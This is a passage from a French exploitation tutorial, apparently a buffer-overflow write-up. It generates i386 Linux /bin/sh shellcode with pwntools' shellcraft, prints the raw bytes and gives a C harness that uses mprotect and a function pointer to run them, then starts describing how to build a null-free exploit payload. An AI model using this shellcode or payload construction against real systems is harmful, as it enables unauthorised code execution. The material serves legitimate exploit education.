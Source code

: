 ``` c
uid=1000(naptax) gid=1000(naptax) groups=1000(naptax),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)
$      
``` 

Avant l'arrivée de *Shellcraft*, j'avais pour habitude de 'crafter' mes shellcodes à la main en C. De ce temps là, j'ai gardé l'habitude de les tester dans un programme C avant de les injecter ailleurs.

Voici comment générer le Shellcode de *shellcraft* **au format C**, et le petit bout de code qui permet ensuite de le compiler et tester.

``` c
$ shellcraft i386.linux.sh -f c
{0x6a, 0x68, 0x68, 0x2f, 0x2f, 0x2f, 0x73, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x68, 0x1, 0x1, 0x1, 0x1, 0x81, 0x34, 0x24, 0x72, 0x69, 0x1, 0x1, 0x31, 0xc9, 0x51, 0x6a, 0x4, 0x59, 0x1, 0xe1, 0x51, 0x89, 0xe1, 0x31, 0xd2, 0x6a, 0xb, 0x58, 0xcd, 0x80}
   
``` 
à insérer dans le code suivant:
``` c
#include <stdio.h>
#include <sys/mman.h>

const char shellcode[] =  
{0x6a, 0x68, 0x68, 0x2f, 0x2f, 0x2f, 0x73, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x68, 0x1, 0x1, 0x1, 0x1, 0x81, 0x34, 0x24, 0x72, 0x69, 0x1, 0x1, 0x31, 0xc9, 0x51, 0x6a, 0x4, 0x59, 0x1, 0xe1, 0x51, 0x89, 0xe1, 0x31, 0xd2, 0x6a, 0xb, 0x58, 0xcd, 0x80};

int main() { 

    mprotect(
        (void *)((int)shellcode & ~4095),
        4096,
        PROT_READ | PROT_WRITE | PROT_EXEC
    );


    int (*func)() = (int(*)())shellcode;
    return func();
}   
``` 
Je trouve que ce code illustre parfaitement le fonctionement et la puissance des pointeurs sur fonction ... a mettre au programme de tout cours de langage C :heart:



>Ok, nous avons le **Shellcode**, **l'adresse mémoire visée**, il ne nous reste plus qu'à calculer notre **padding**, et nous aurons tous les éléments nécessaires pour la création de notre *exploit*:

<center>
{{< figure src="/images/shaker.png" width="150" >}}
</center>

Nous allons donc construire une chaine d'octets qui sera notre PAYLOAD et dont aucun octet ne devra valoir 0*. Ce PAYLOAD va se composer des parties suivantes :
